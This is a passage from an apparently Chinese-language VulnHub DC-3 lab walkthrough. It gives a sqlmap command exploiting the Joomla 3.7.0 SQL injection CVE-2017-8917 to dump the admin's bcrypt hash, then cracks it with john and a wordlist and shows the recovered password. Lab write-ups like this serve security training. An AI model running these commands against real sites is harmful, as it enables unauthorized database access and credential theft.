 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/15.png)

Joomla 3.7.0 有个 CVE-2017-8917 SQL 注入漏洞，更多漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Joomla)

直接 SQLMAP 走起
```bash
sqlmap -u "http://192.168.141.138/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb --tables -T '#__users' -C name,password --dump
```

一路 y 就行了，可以看到跑出了后台账号密码

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/6.png)

```
| admin | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
```

密码是 bcrypt 加密的, hashcat 和 john 都可以跑,在 DC1 中使用 hashcat 跑了密码，这里就用 john 跑一跑
```bash
echo "\$2y\$10\$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC3/7.png)

ok,跑出密码 `snoopy` ,登录,注意不是在 `http://192.168.141.138/index.php` 登录，而是在 `http://192.168.141.138/administrator/index.php` 登录，这 TM 才是后台
